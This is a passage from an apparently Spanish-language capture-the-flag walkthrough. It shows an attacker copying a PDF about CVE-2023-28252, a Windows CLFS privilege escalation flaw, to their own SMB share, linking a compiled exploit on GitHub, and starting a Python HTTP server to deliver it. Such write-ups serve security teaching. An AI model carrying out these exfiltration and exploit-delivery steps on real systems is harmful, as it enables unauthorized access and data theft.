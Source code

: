 Nos `transferimos` el archivo `pdf`

```
PS C:\Users\sam.emerson\Documents> copy CVE-2023-28252_Summary.pdf \\10.10.16.29\smbFolder\CVE-2023-28252_Summary.pdf
```

`Visualizamos` el `contenido` del `pdf` en el cual nos habla del `CVE-2023-28252`

```
# pdf2txt CVE-2023-28252_Summary.pdf 
CVE-2023-28252 Summary:
Vulnerability Type: Privilege Escalation
Target Component: Common Log File System (CLFS)
Risk Level: Critical
Exploitation Date: February 2022 onwards
Patch Released by Microsoft: April 2023

Background:
The Nokoyawa ransomware group has been active since February 2022, and it was only 
in April 2023 that Microsoft released a patch to address this issue. This 
vulnerability has been used as a means for attackers to gain unauthorized access to
Windows systems, making it imperative for us to apply the necessary patch to 
safeguard our infrastructure.
According to Kaspersky’s analysis, the Nokoyawa ransomware group has used other 
exploits targeting the CLFS driver since June 2022, with similar but distinct 
characteristics, all linked to a single exploit developer.

Actions Required:
Immediate Patching: We strongly recommend applying the security patch released by 
Microsoft for CVE-2023-28252 as soon as possible to mitigate the risk associated 
with this vulnerability. Failing to do so could leave our servers exposed to 
potential exploitation.

Review and Monitoring: In addition to patching, we should conduct a thorough review
of our server logs to check for any signs of suspicious activity or unauthorized 
access. Continuous monitoring of our server environment is crucial to ensure the 
security of our systems.

Security Awareness: It is essential to remind all team members of the importance of
practicing good cybersecurity hygiene. Encourage the use of strong, unique 
passwords and two-factor authentication wherever applicable.

Incident Response Plan: Ensure that our incident response plan is up-to-date and 
ready for immediate activation in case of any security incidents. Timely detection 
and response are critical in mitigating the impact of potential attacks.
```

Nos `descargamos` el `exploit` de este proyecto de github [https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git](https://github.com/duck-sec/CVE-2023-28252-Compiled-exe.git) y nos `montamos` un `servidor http` con `python` en nuestro equipo

```
# python -m http.server 80    
```
